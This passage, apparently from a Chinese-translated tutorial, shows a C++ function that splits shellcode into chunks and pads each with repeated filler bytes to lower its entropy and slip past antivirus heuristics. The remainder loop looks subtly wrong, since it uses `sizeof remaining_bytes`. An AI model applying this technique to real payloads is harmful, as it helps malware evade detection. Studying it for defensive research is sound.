 请注意，所有这些计算都存储在全局变量中，高熵代码也位于代码的全局区域中，以确保它将存储在可执行文件的数据部分，但它也可以完全位于资源部分，并在运行时加载。您甚至可以将高熵字节模式存储在 main 函数中，但是该模式将存储在。文本部分，它将被加载到堆栈中，而不是堆中，因为它存储在数据部分或资源部分。这很重要，因为堆栈不能处理非常大的字节数组，而且当数组太大时，一些编译器会抱怨这一点。

下一个任务是将高熵代码分成块，并添加低熵模式:

```
PBYTE shannonEncode(PBYTE rawShellcode)
{
	constexpr int max_n = 0xEF; //239
	constexpr int min_n = 0x01; //1
	char random_hex[chunk_size];
	int encodedShellcodeOffset = 0;
	int shellcodeOffset = 0;
	const BYTE new_n = static_cast<BYTE>((rand() % (max_n + 1 - min_n) + min_n));
	for (char& i : random_hex)
	{
		i = static_cast<char>(new_n);
	}
	for (size_t i = 0; i < number_of_chunks; i++)
	{
		for (size_t j = 0; j < chunk_size; j++)
		{
			lowEntropyShellcode[encodedShellcodeOffset] = rawShellcode[shellcodeOffset];
			encodedShellcodeOffset++;
			shellcodeOffset++;
		}
		for (const char k : random_hex)
		{
			lowEntropyShellcode[encodedShellcodeOffset] = k;
			encodedShellcodeOffset++;
		}
	}
	if (remaining_bytes)
	{
		for (size_t i = 0; i < sizeof remaining_bytes; i++)
		{
			lowEntropyShellcode[encodedShellcodeOffset++] = rawShellcode[shellcodeOffset++];
		}
	}
	for (int count = 0; count < sizeof(lowEntropyShellcode); count++) {
		printf("0x%02X,", lowEntropyShellcode[count]);
	}
	return lowEntropyShellcode;
}
```

让我们用图表来解释一下。假设属于高熵块的字节由字母“H”表示，属于低熵块的低熵字节由字母“L”表示，其余从未修改的字节由字母“R”表示

